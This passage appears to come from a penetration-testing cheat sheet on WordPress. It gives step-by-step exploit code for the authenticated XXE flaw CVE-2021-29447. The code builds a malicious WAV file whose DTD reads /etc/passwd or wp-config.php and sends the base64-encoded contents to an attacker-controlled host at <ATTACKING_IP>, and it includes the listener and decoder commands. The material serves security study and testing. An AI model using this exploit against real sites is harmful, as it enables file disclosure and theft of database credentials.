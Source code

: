 ```bash
#Just append ?static=1 to the url
http://wordpress.local/?static=1
http://wordpress.local/?static=1&order=asc
```
{% endtab %}
{% endtabs %}

#### Authenticated  XXE (CVE-2021-29447)

{% tabs %}
{% tab title="Exploit" %}
If you have user credential and you have **Author's permissions**, you may exploit this XEE that lead to an **arbitrary file disclosure**.

{% hint style="info" %}
Versions of WordPress 5.6-5.7 are vulnerable
{% endhint %}

First off, create **"exploit.wav"**. (change your ip)

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<ATTACKING_IP>:9001/exploit.dtd'"'"'>%remote;%init;%trick;] >\x00'> exploit.wav
```

Next create **"exploit.dtd"**. (change the resource var to the wanted file)

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!-- <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php"> -->
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<ATTACKING_IP>:9001/?p=%file;'>">
```

Then we can start the PHP server on the attacking machine

```bash
php -S 0.0.0.0:9001
```

Now, In target website, login as normal user and go to "Media", click "Add New". Upload the "exploit.wav". After that, open the WAV file. You should see the base64 information revealed in your console.

To decode the Base64, create **“decode.php”** as following.

```php
<?php echo zlib_decode(base64_decode('<Base64_Here>')); ?>
```

Execute the script to decode it

```bash
php decode.php
```
{% endtab %}
{% endtabs %}
